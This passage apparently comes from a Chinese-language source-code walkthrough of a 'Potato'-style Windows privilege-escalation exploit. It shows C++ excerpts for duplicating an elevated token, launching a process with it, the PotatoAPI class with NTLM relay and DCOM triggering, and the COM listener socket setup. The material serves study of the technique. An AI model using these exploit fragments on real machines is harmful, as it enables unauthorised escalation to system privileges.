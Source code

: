 ```c++
// 复制token
DuplicateTokenEx(
    elevated_token,
    TOKEN_ALL_ACCESS,
    NULL,
    SecurityImpersonation,
    TokenPrimary,
    &duped_token);

if (*processtype == 't' || *processtype == '*')
    CreateProcessWithTokenW(duped_token, 0, processname, processargs, 0, NULL, NULL, &si, &pi);

if (*processtype == 'u' || *processtype == '*')
    CreateProcessAsUserW(duped_token, processname, command, nullptr, nullptr, FALSE, 0, nullptr, L"C:\\", &si, &pi);

```

#### PotatoAPI类定义

```c++
class PotatoAPI {
private:
	BlockingQueue<char*>* comSendQ;
	BlockingQueue<char*>* rpcSendQ;
	static DWORD WINAPI staticStartRPCConnection(void * Param);
	static DWORD WINAPI staticStartCOMListener(void * Param);
	static int newConnection;
	int processNtlmBytes(char* bytes, int len);
	int findNTLMBytes(char * bytes, int len);

public:
	PotatoAPI(void);
	int startRPCConnection(void);
    DWORD startRPCConnectionThread();
	DWORD startCOMListenerThread();
	int startCOMListener(void);
	int triggerDCOM();
	LocalNegotiator *negotiator;
	SOCKET ListenSocket = INVALID_SOCKET;
	SOCKET ClientSocket = INVALID_SOCKET;
	SOCKET ConnectSocket = INVALID_SOCKET;
};
```

#### startCOMListener

开启新线程监听COM server端口，默认随机

WinSock编程, 设置了端口复用，然后bind and listen；用select做多路复用

```c++
WSAStartup(MAKEWORD(2, 2), &wsaData);

struct addrinfo hints;
hints.ai_family = AF_INET;
hints.ai_socktype = SOCK_STREAM;
hints.ai_protocol = IPPROTO_TCP;
hints.ai_flags = AI_PASSIVE;

getaddrinfo(NULL, dcom_port, &hints, &result);
ListenSocket = socket(result->ai_family, result->ai_socktype, result->ai_protocol);

setsockopt(ListenSocket, SOL_SOCKET, SO_REUSEADDR, (char *)&optval, sizeof(optval));

```